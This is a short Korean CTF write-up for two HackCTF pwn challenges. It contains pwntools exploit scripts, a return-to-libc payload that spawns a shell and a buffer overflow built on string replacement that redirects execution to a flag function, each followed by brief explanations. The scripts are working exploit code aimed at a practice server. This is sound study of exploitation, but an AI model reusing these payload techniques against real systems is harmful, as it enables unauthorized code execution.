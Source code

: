 # HACKCTF 
## RTL_World  
~~~python
from pwn import *
r = remote("ctf.j0n9hyun.xyz",3010)
system=0x080485b0
binsh=0x8048eb1

r.recv(1024)
r.sendline("5")
r.recvuntil("[Attack] > ")
payload = 'A'*144+p32(system)+'A'*4+p32(binsh)
r.sendline(payload)
r.interactive()
~~~
우선 nc를 통해 실행시켜봤더니 엄청 복잡하다.
우선 입력할 수 있는 부분을 먼저 찾으니 선택부분과 5번 kill 부분에서 입력 가능하다.
case 5에서는 read 함수로 buf에 입력을 받음으로 여기서 공격이 가능하다.
또한 아이다에서 system 함수의 주소를 얻었다.
system 함수의 인자로 사용될 bin/sh값을 objdump | grep /bin/sh 함수로 찾아준다.
이제 payload를 dummy(144) | system 주소 | ret(4) | binsh 주소 이렇게 구성시켜주면
shell을 얻을 수 있다. 롸이트업을 계속 보고 하게 된다ㅠㅠ
## g++ pwn
~~~python
from pwn import *
r = remote("ctf.j0n9hyun.xyz",3011)
flag=0x08048f0d
payload = 'A'*4 + 'I'*20+p32(flag)
r.sendline(payload)
r.interactive()
~~~
ida를 통해 열어보니 메인 함수에는 vuln 함수만 포함되어 있다. 그리고 get_flag라는 함수의 존재를 알 수 있다.
flag는 이 함수를 통해 얻는다고 예상했다. vuln 함수의 경우에 fgets 함수로 32개를 받으므로 ret까지 도달하지 못하게 되어있다. 
어떻게 풀어야할지 감이 안 잡혀서 wirteup을 보니 replace함수를 이용해야 한다. 
replace 함수는 "I"를 "YOU"로 대체하는데 dummy의 크기를 3배 늘려 버퍼에 복사가능하도록 해준다. 
따라서 dummy 값으로 "I"를 사용하고 ret에는 get_flag의 주소를 집어넣으면 flag를 얻을 수 있다. 
